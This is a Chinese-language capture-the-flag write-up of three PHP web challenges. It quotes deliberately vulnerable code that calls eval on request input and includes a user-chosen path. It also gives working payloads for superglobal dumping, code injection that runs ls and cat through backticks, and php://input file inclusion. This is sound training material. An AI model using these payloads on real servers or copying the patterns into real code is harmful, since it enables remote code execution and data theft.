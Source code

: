 ```yaml
---
title: MiscWeb
date: 2017-03-19 00:00:00
categories:
- CTF/Web
tags: 百度杯二月 php黑魔法 php超全局变量 phpinfo
--- 
```


## 解题过程

### 第一题

- Tips: flag就在某六位变量中

```php
<?php
include "flag.php";
$a = @$_REQUEST['hello'];
if(!preg_match('/^\w*$/',$a )){
  die('ERROR');
}
eval("var_dump($$a);");
show_source(__FILE__);
?>
```

1. 首先正则表达式只匹配[a-zA-Z0-9]的字符
2. 存在`eval()`函数，其中字符用双引号引起
3. 其中`var_dump()`函数中参数为两个美元符号的变量  

- 以上想到利$GLOBAL超级全局变量
`?hello=GLOBAL`拿到flag

### 第二题

- Tips: flag不在变量中
- 也许所以无法通过超全局变量查看

```php
<?php
include "flag.php";
$a = @$_REQUEST['hello'];
eval( "var_dump($a);");
show_source(__FILE__);
```

- 存在`eval()`函数，其中字符用双引号引起， 其中`var_dump()`函数中参数为可控变量
- 则可在双引号中变量替换的时候代码注入

```php
$a="hello);echo `ls`;//";
eval("var_dump($a);");

变量替换后，可执行任意代码

eval("var_dump(hello);echo `ls`; // )")

```

- ```?hello=hello);echo  `ls`;//``` 
- ```?hello=hello);echo  `cat flag.php`;//```
- flag在注释中

### 第三题

- Tips: 没错！就是文件包含漏洞

```php
<?php 
show_source(__FILE__);
if(isset($_REQUEST['path'])){
    include($_REQUEST['path']);
}else{
    include('phpinfo.php');
}
```

- 查看`phpinfo`中`allow_url_include`是开启的，所以可以利用php伪协议中的`php://input`让文件包含post提交的数据，执行任意代码

- payload如下，即可获得flag

```

url: ?path=php://input

POST: <?php echo `ls`; ?>
POST: <?php echo `cat dle345aae.php `;?>
```

## 知识小结

- 正则表达式分析
- php超全局变量利用
- php双引号中变量替换
- php伪协议
- phpinfo中泄露信息的利用
- eval()函数中存在可控变量则可产生代码注入